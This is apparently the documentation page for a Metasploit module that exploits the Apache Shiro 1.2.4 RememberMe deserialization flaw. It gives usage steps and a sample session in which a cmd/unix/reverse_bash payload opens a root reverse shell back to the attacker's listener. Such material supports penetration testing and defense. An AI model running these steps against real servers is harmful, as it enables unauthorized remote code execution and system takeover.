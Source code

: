 ## Description

Apache Shiro v1.2.4 are vulnerable to deserialize RCE.

## Vulnerable Application

[Shiro RememberMe 1.2.4](https://github.com/Medicean/VulApps/tree/master/s/shiro/1)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/shiro_rememberme_v124_deserialize`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested on GNU/Linux x86_64 using Shiro-1.2.4

```
msf5 > use exploit/multi/http/shiro_rememberme_v124_deserialize
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > set rhosts 192.168.1.11
rhosts => 192.168.1.11
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Command shell session 2 opened (192.168.1.2:4444 -> 192.168.1.11:36206) at 2019-02-04 20:16:27 +0800

whoami
root
exit
[*] 139.199.158.84 - Command shell session 2 closed.
```
